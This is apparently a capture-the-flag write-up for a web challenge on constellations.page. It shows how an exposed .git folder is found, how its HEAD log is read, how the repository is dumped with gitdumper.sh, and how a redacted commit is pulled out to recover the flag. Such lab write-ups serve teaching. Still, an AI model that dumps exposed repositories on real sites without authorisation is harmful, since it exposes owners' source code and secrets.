# Meet the team

## The brief

```
Recover the list of employees working at CONSTELLATIONS.

With the flag of this challenge, you should find new information that will help with future challenges.

You should find the flag for this challenge ON THIS constellations.page website. You will not find it on GitHub.

HINT: "Can we please stop sharing our version control software out on our website?"

HINT AGAIN: you are looking for a publicly accessible version control software folder published on the constellations.page website itself

After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
```
Again we have to look at the `constellations.page` page. And from `Bionic` we have the `meet-the-team.html` page!

## Page
</br>
![pag](./pag.png)
</br>

We have to recover the list! Again we can use [webctf](https://github.com/xnomas/web-ctf-help) to find hints:
```
webctf https://constellations.page/meet-the-team.html

=============
COMMENTS
=============

[+] 1 :   Vela, can we please stop sharing our version control software out on the public internet?  <----
[+] 2 :   Bootstrap core CSS
[+] 3 :   Custom fonts for this template
[+] 4 :   Custom styles for this template
[+] 5 :   Navigation
[+] 6 :   Header
[+] 7 :   About Section
[+] 8 :   Contact Section
[+] 9 :   Footer
[+] 10 :   Bootstrap core JavaScript
[+] 11 :   Plugin JavaScript
[+] 12 :   Custom scripts for this template

=============
SCRIPTS
=============

[+] 1 : assets/vendor/jquery/jquery.min.js
[+] 2 : assets/vendor/bootstrap/js/bootstrap.bundle.min.js
[+] 3 : assets/vendor/jquery-easing/jquery.easing.min.js
[+] 4 : assets/js/grayscale.min.js

=============
IMAGES
=============

sources:
--------
[+] 1 : assets/img/laptop.png

alts:
-----
[+] 1 :

===================
INTERESTING HEADERS
===================

Server : Apache/2.4.25 (Debian)
```
We are looking for a popular Version Control service folder.... maybe `.git`:
</br>
![nope](./nope.png)
</br>
But nope! Time to go deeper! `.git/logs/`, also nothing. How about `.git/logs/HEAD`?
```
0000000000000000000000000000000000000000 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614124430 -0500	commit (initial): Added initial assets and landing page
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614124968 -0500	commit: Added the Meet The Team page
87b17a86409582c162e260795afdf104dc1d46b1 8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 Leo Rison <leo.rison@constellations.page> 1614125173 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125488 -0500	checkout: moving from master to 87b17a
87b17a86409582c162e260795afdf104dc1d46b1 0780dea9ede681b1e4276d74740bb11056d97c39 Leo Rison <leo.rison@constellations.page> 1614125881 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
0780dea9ede681b1e4276d74740bb11056d97c39 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125918 -0500	checkout: moving from 0780dea9ede681b1e4276d74740bb11056d97c39 to 87b17a86409582c162e260795afdf104dc1d46b1
87b17a86409582c162e260795afdf104dc1d46b1 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614125954 -0500	checkout: moving from 87b17a86409582c162e260795afdf104dc1d46b1 to 1142cc
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 e7d4663ac6b436f95684c8bfc428cef0d7731455 Leo Rison <leo.rison@constellations.page> 1614126014 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
```
And we want to get to this:
```
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
```
Before the removal. 

## Dumping

I used this [tool](https://github.com/internetwache/GitTools), specificaly `gitdumper.sh`:
```
gitdumper.sh https://constellations.page/.git/ git
```
So like this I got eeeeeverything. 
```bash
cd git; cd .git; git log

commit 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60
Author: Leo Rison <leo.rison@constellations.page>
Date: Tue Feb 23 18:53:50 2021 -0500

    Added the Meet The Team page

```
And this is the commit we want, now just `git show 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60`:
```html
<!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->
```
Voila!